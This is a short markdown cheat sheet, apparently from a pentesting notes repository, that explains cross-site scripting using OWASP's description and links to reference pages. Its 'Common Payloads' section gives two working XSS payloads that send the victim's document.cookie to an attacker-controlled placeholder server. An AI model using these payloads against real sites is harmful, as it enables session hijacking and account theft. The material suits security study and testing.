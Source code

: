 # XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Common Payloads

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>


## Relevant Information

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting